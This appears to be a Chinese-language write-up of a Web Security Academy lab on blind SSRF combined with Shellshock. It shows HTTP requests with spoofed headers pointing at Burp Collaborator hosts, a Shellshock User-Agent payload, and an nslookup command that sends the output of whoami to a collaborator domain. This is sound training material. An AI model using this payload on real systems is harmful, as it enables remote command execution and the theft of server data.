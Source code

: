 然后我们对漏洞网页进行访问（使用了Collaborator Everywhere插件）：

Edited request:

```http
GET /product?productId=1 HTTP/1.1
Host: ac451f611e2f180680dc0fde006f0009.web-security-academy.net
Connection: close
Cache-Control: no-transform
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 root@xwxia7u5xvz4mtbi0nsdujf4bvhv5k.burpcollaborator.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://vtsg75r3utw2jr8gxlpbrhc28tev2k.burpcollaborator.net/ref
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=BXkvBYF57oEas0Gxb5s5plYApdG3RFSC
Forwarded: for=spoofed.grb15qposeunhc61v6nwp2an6ec50u.burpcollaborator.net;by=spoofed.grb15qposeunhc61v6nwp2an6ec50u.burpcollaborator.net;host=spoofed.grb15qposeunhc61v6nwp2an6ec50u.burpcollaborator.net
True-Client-IP: spoofed.mvl79wtuwkytlia7zcr2t8etakgc41.burpcollaborator.net
X-Forwarded-For: spoofed.78dsmh6f95bey3nscx4n6tren5tyhn.burpcollaborator.net
X-Wap-Profile: http://b5hwjl3j698iv7kw911r3xoik9q3es.burpcollaborator.net/wap.xml
CF-Connecting_IP: spoofed.qpjb30nyqosxfm4btgl6nc8x4oajy8.burpcollaborator.net
Client-IP: spoofed.v40gi5235t72urjg8l0b2hn2jtppde.burpcollaborator.net
Contact: root@tqne43o1rrt0gp5eujm9of905rbozd.burpcollaborator.net
X-Originating-IP: spoofed.4mrp0ekcn2pbc01pquikkq5b1270vp.burpcollaborator.net
X-Client-IP: spoofed.nsj86xqvtlvuij78wdo3q9bu7ldk19.burpcollaborator.net
From: root@gyi1cqwoze1nocd126uww2hndejf74.burpcollaborator.net
X-Real-IP: spoofed.upnf34n2qss1fq4ftklang814savyk.burpcollaborator.net
```

在插件里面查看返回内容：

```http
GET /ref HTTP/1.1
Host: vtsg75r3utw2jr8gxlpbrhc28tev2k.burpcollaborator.net
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 root@xwxia7u5xvz4mtbi0nsdujf4bvhv5k.burpcollaborator.net
Accept-Encoding: gzip
```

发现返回了`User-Agent`，说明`User-Agent`通过了环境变量`HTTP_USER_AGENT`来传递。所以这里可以使用Shellshock漏洞。

 将`User-Agent`字段改成：`() { :; };访问burp collaborator的命令`应该是可以收到响应的。

这里使用`nslookup`命令来连接：`/usr/bin/nslookup $(whoami).5gmbmv7dygwymmxy7nst3xw3iuokc9.burpcollaborator.net`
